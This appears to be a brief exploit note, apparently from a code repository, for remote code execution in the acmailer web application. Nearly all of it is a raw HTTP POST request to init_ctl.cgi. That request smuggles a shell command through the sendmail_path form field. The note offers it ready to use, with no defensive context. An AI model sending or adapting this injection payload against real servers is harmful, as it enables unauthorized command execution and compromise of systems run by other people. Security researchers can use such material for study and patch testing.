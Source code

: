 # acmailer_init_ctl_rce

from : https://mp.weixin.qq.com/s/qp496PHNJd5K9NlZCOTWkg

2024.02.26 @2 
```
POST /init_ctl.cgi HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0
Connection: close
Content-Length: 150
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip

admin_name=u&admin_email=m@m.m&login_id=l&login_pass=l&sendmail_path=|id >ceshi.txt | bash&homeurl=http://&mypath=e
```
